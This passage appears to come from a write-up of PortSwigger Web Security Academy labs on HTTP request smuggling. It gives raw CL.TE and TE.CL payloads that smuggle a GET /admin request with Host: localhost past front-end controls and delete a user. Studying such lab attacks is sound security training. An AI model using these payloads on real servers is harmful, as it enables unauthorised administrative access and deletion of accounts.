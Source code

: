 Now we have requested the `Host to localhost` but it's not accepted as there are two host on the request now we can send something like


```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Here we choosed chunck of data where Host has been ignore.

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Sending this request solved the lab.



## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

```
POST / HTTP/1.1
Host: 0ae6006a032b81158070537a000f00a5.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
## Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
